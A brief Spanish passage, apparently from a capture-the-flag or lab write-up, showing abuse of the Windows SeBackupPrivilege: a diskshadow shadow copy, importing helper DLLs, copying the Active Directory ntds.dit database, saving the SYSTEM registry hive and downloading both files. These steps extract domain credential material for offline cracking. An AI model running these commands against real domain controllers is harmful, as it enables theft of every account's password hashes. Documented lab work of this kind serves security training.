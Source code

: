 Ejecutaremos el comando para crear el backup.

`diskshadow /s shadow.txt`

![14](img/14.png)

Importamos los archivos anteriores, copiamos el **ntds.dit** y creamos **system.hive**.

- `Import-Module .\SeBackupPrivilegeUtils.dll`
- `Import-Module .\SeBackupPrivilegeCmdLets.dll`
- `Copy-FileSeBackupPrivilege w:\windows\ntds\ntds.dit c:\temp\ntds.dit`
- `reg save HKLM\SYSTEM C:\temp\system.hive`

![15](img/15.png)

Descargaremos ambos archivos.

- `download system.hive`
- `download ntds.dit`

![16](img/16.png)
